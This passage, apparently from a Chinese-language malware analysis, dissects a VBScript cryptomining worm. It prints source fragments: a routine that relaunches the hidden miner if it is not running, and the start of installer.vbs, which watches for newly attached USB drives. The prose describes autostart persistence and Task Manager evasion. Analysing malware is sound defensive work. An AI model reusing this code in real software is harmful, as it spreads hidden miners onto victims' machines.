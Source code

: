 ```vb
end if
WScript.Sleep 3000
```

这里指向WindowsServices.exe的变量名为miner，可以推测脚本原意运行的是一个挖矿程序，但是当前获取到的样本中的可执行文件已经被前辈替换为0KB的文件了

procheck函数如下：

```vb
sub procheck(checkme, procname)

For Each objProcess In checkme
	vaprocess = objProcess.CommandLine
	
		if instr(vaprocess, procname) then
			Exit sub
		End if
	
Next

ws.Run Chr(34) & strPath & procname & Chr(34)

end sub
```

它检测了每个checkme进程的实例，它们的命令行是否存在procname，如果不存在就会运行procname指向的文件，该函数仅当procname指向的文件存在于病毒文件夹下才可正常运行

#### 小结

helper.vbs创建了自身的开机启动，并且保证病毒文件夹下的可执行文件是一直在运行的，同时检测任务管理器，确保可执行文件不被发现。循环中还运行了installer.vbs，下面转到该文件

### installer.vbs

#### 代码

```vb
on error resume next
DIM colEvents, objws, strComputer, objEvent, DestFolder, strFolder, Target, ws, objFile, objWMIService, DummyFolder, check, number, home, device, devicename, colProcess, vaprocess, objWinMgmt
strComputer = "."
Set ws = WScript.CreateObject("WScript.Shell")

Target = "\WindowsServices"


'where are we?
strPath = WScript.ScriptFullName
set objws = CreateObject("Scripting.FileSystemObject")
Set objFile = objws.GetFile(strPath)
strFolder = objws.GetParentFolderName(objFile)




'Checking for USB instance
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
Set colEvents = objWMIService.ExecNotificationQuery ("SELECT * FROM __InstanceOperationEvent WITHIN 1 WHERE " & "TargetInstance ISA 'Win32_LogicalDisk'")


Set objWinMgmt = GetObject("WinMgmts:Root\Cimv2")


While True

```